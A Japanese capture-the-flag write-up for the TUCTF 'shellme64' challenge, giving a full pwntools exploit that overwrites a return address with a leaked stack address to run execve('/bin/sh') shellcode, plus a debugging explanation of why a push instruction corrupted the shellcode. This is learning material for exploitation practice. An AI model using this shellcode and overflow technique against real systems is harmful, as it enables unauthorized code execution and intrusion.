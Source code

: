 # TUCTF shellme64 pwn

## 問題
* binary
```
$ file shellme64 
shellme64: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=83254c97da6347cf9cb96f7fe5fad3a28968a719, for GNU/Linux 3.2.0, not stripped
```
* 実行時にrspのアドレスが出力されている

## 解法

rspに入っているアドレスがわかっているのでリターンアドレスをスタックの先頭アドレスに書き換えてシェルコードを実行させる。

```python
from pwn import *

io = process("./shellme64")
# io = remote("chal.tuctf.com", 30507)

# execve("/bin/sh")
# 命令\x57(push rdi)を削除している
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x48\x89\xe6\xb0\x3b\x0f\x05"

buf = io.read()
addr_rsp =  buf[-17:-3]
print 'rsp address: {}'.format(addr_rsp)
addr_rsp = int(addr_rsp, 16)

exp = ""
exp += shellcode
exp += "A" * 100
exp = exp[:40]
exp += p64(addr_rsp)

io.send(exp)
io.interactive()

```

## 困った点

[シェルコード](http://shell-storm.org/shellcode/files/shellcode-603.php)を実行させようとすると、`push rdi`の命令でSEGVで死んだ。
コンテスト中はとりあえずその命令を削除することでシェルを起動させることができたが、原因はつかめなかった。

### SEGVの原因

`push rdi`直前の命令ででスタック上のシェルコードの最後の数バイトが上書きされてしまっていた。


SEGV直前のスタックの状態は下のようなイメージ. この次の`push rax`が実行されると送り込んだシェルコードが
書き換えられてしまう。



|  stack |
|--------|
|push rax|<- rip
|push rdi|
|mov rsi, rsp|
|mov al, 0x3b|
|syscall|
|000000000| <- rsp
|"/bin/sh"|

* rspは000000000の位置を指している
* ripはpush raxの位置を指している

push rax が実行される直前の状態。まだシェルコードは正しい状態で残っている。
![before crushed](https://github.com/wani-hackase/wani-writeup/blob/master/2019/11-tuctf/shellme64/shellcode_before_crushed.png)


push rax が実行された直後の状態。push rdi以降の命令が壊されている
![crushed](https://github.com/wani-hackase/wani-writeup/blob/master/2019/11-tuctf/shellme64/shellcode_crushed.png)
